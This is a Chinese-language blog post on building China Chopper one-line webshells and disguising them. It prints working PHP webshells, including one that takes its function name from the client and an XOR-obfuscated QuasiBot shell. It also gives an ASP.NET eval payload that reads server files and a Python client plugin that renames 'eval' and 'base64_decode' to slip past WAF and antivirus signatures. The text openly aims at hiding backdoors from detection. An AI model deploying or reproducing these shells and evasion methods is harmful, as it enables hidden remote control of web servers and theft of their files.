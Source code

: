 ```yaml
---
layout: post
title: 经典菜刀一句话小马及其变形的设计
date: 2015-07-26 07:34:18
tags:
- Pene
- Spy
- 菜刀

categories:
- 巫蛊
- Spy
---
```



经典的菜刀一句话类似于：
```PHP
@eval($_POST['pass'])
```

这里的eval便是我们要执行的动作。而真正要执行的代码以字符串形式存在的$_POST['pass']。

这类小马总是接受来自客户端的发来的Request，然后对其中特定的邪恶字符串动态求值，并将执行结果以特定的格式Response回客户端。一句话小马的核心特征总是可以归结为这样的形式：

```PHP
$act（$evilStr）
```

其中，$act可能代表eval、system，或如带e标志的preg_replace之类可执行字符串的动作，$evilStr代表一段以字符串形式存在的邪恶代码。

## 动作

在服务端的木马中直接写eval之类的敏感词很可能会导致被查杀。有两种基本思路可以绕过这个问题：

* 在服务端的小马里对动作名进行混淆
* 从客户端向小马传递动作名，从而避免在服务端的小马里看到eval之类的代码

### 混淆动作名

混淆动作名的方法很多，如字符串拼接、base64编码等等。关键是隐藏自己。

### 从客户端传递动作名：

木马类似于：

```PHP
$act=$_GET['act'];
$evilStr=$_POST['evilStr'];
$act($evilStr);
```

则客户端POST恶意数据到victim.php?act=eval即可完成。

### 结合两者：

比如QuasiBot的服务端木马：

```PHP
if($_GET['_']) {
    print "<!--".$_="{:|";
    $_=($_^"<").($_^">").($_^"/"); # 结果为$_="GET"
    ${'_'.$_}["_"](${'_'.$_}["__"]);    #结果为$_GET['_']($_GET['__'])
    print "{:|".md5("666".date("h:d"))."{:|".PHP_OS."{:|-->";
}else{
    //...
}
```

很显然，这段代码实际上是利用异或^运算符做了代码混淆，本质上还是通过客户端传递动作名来达到隐蔽自己的效果。



## 邪恶代码的字符串

这部分便是我们实际要运行的代码。由于WAF的缘故，经常需要对之进行编码加密，常用的便是利用base64_decode()。
解密工作可以放到服务端的小马中完成，也可以放在邪恶字符串中——每当邪恶字符串被求值的时候，就会触发自解密。
比如菜刀的某一段邪恶功能字符串经过整理后可能类似于：
```C#
//ee=
Response.Write("->|");
var err:Exception;
try{
    eval(
        System.Text.Encoding.GetEncoding(65001).GetString(
            System.Convert.FromBase64String("dmFyIFA9U3lzdGVtLlRleHQuRW5jb2RpbmcuR2V0RW5jb2RpbmcoNjUwMDEpLkdldFN0cmluZyhTeXN0ZW0uQ29udmVydC5Gcm9tQmFzZTY0U3RyaW5nKFJlcXVlc3QuSXRlbVsiejEiXSkpO3ZhciBtPW5ldyBTeXN0ZW0uSU8uU3RyZWFtUmVhZGVyKFAsRW5jb2RpbmcuRGVmYXVsdCk7UmVzcG9uc2UuV3JpdGUobS5SZWFkVG9FbmQoKSk7bS5DbG9zZSgpOw%3D%3D")
        ),
        "unsafe"
    );
}catch(err){
    Response.Write("ERROR:// "%2Berr.message);
}
Response.Write("|<-");
Response.End();
```
配合着发送的还有这样一个QueryString

```C#
z1=QzpcXERvY3VtZW50cyBhbmQgU2V0dGluZ3NcXEFkbWluaXN0cmF0b3JcXOahjOmdolxcMjIyLmNzdg%3D%3D
```

其中：

* ee代表的邪恶字符串经过urldecode、base64_decode之后，得到明文是:

```C#
var P=System.Text.Encoding.GetEncoding(65001).GetString(
    System.Convert.FromBase64String(Request.Item["z1"])
);
var m=new System.IO.StreamReader(P,Encoding.Default);
Response.Write(m.ReadToEnd());
m.Close();
```

* z1实际上是一段经过base64编码的字符串，用作ee代表的那段邪恶代码的变量。


当然，这样直接把eval和base_decode这类敏感词写到邪恶字符串中，还是带有一定的通信特征，很容易被查杀，所以习科核心成员[半块西瓜皮](http://bbs.isilic.org/space-uid-5744.html)发布了[Python插件版的菜刀](http://bbs.isilic.org/forum.php?mod=viewthread&tid=6972&highlight=%E8%8F%9C%E5%88%80)，支持把eval、base_decode之类的敏感词替换为其他非敏感字符串，然后再在服务端的小马中予以还原。

Python的插件脚本为：
```Python
def makepostdata(headers,postdata):
    open('headers.txt','wb').write(headers)
    open('postdata.txt','wb').write(postdata)
    headers = headers.replace('X-Forwarded-For','asdasd')
    postdata = postdata.replace('eval','xxxx')
    postdata = postdata.replace('base64_decode','yyyy')
    return headers,postdata
```

这个插件作者给出的服务端的小马类似于：
```PHP
<?php
    function xxxx($str){return eval($str);}
    function yyyy($str){return base64_decode($str);}
    xxxx($_POST['pass']);
?>
```

当然，这种服务端小马尚未对敏感词做混淆，可以配合异或符进一步隐蔽。
